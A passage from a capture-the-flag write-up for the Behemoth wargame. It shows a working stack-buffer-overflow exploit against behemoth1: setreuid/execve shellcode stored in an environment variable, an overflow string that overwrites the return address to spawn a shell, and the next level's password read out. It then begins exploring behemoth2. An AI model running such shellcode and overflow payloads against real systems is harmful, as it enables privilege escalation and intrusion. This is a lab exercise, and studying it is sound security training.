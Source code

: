 Let's create our environmental variable and call it "EGG" now.
```bash
behemoth1@behemoth:/behemoth$ export EGG=$(python -c 'print "\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
```

To make sure our script works correctly, we need to pass in our program name in the same manner as we would call it normally. This is because the name of the program will slightly change where the other variables sit on the stack.

```bash
behemoth1@behemoth:/behemoth$ /tmp/smhbehemoth1/findenvaddr.out EGG ./behemoth1         
EGG will be at 0xffffd850
```

OK great, let's try this address and perhaps add a few bytes onto it to make sure we hit the NOPs.
```bash
behemoth1@behemoth:/tmp/smhbehemoth1$ python -c 'print "A"*79 + "\x50\xd8\xff\xff"' | /behemoth/behemoth1 
Password: Authentication failure.
Sorry.
```
No seg fault this time but we didn't get a shell. Turns out that for some reason, the program exits before we are given control to the shell. This can be fixed by appending ";cat" to our command to force the shell to wait for input.
```bash
behemoth1@behemoth:/tmp/smhbehemoth1$ (python -c 'print "A"*79 + "\x50\xd8\xff\xff"';cat) | /behemoth/behemoth1 
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
eimahquuof
```
That's more like it. On to behemoth2.

# Behemoth2
OK we know the drill at this point. Let's run behemoth2.
```bash
behemoth2@behemoth:~$ cd /behemoth/
behemoth2@behemoth:/behemoth$ ./behemoth2 
touch: cannot touch '17820': Permission denied
^C
behemoth2@behemoth:/behemoth$ ./behemoth2 
touch: cannot touch '17823': Permission denied
^C
behemoth2@behemoth:/behemoth$ 
```

OK interesting response from just our first run. It looks like it's trying to create a file called '17820' and '17823' but it can't. It most likely can't create a file because we are executing the program from /behemoth/ which we don't have write permission in. Let's create a new /tmp/ directory and try running the program from there as we will have write privileges to that folder.
```bash
behemoth2@behemoth:/behemoth$ mkdir /tmp/smhbehemoth2
behemoth2@behemoth:/behemoth$ cd /tmp/smhbehemoth2
behemoth2@behemoth:/tmp/smhbehemoth2$ /behemoth/behemoth2 
^C
behemoth2@behemoth:/tmp/smhbehemoth2$ 
```
